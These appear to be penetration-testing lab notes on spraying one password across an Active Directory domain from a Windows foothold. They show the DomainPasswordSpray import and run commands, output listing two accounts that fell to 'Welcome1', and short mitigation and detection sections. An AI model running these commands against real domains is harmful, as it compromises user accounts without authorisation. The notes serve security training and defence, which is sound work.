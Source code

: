 ```yaml
---
title: Password Spraying - Windows
draft: false
tags:
  - password-spray
  - domainpasswordspray
---
```

If we have a foothold on domain-joined Windows host, we can use[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool.

If the host is authenticated to the domain, tool will automatically generate a user list from AD, query password policy, and exclude user accounts within one attempt of locking out.

## DomainPasswordSpray - Domain Joined

Since the host we are on is domain joined, it will automatically get user list from AD. 

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```


## Mitigation

- Multi-factor Authentication
- Restricting Access

## Detection

On DC's security log:

- [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)
- [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)


## Moving On

So we successfully attempted on password spray using password policy and userlist. Now with several sets of valid credentials in hand, we move to performing credentialed enumeration with various tools such as bloodhound.

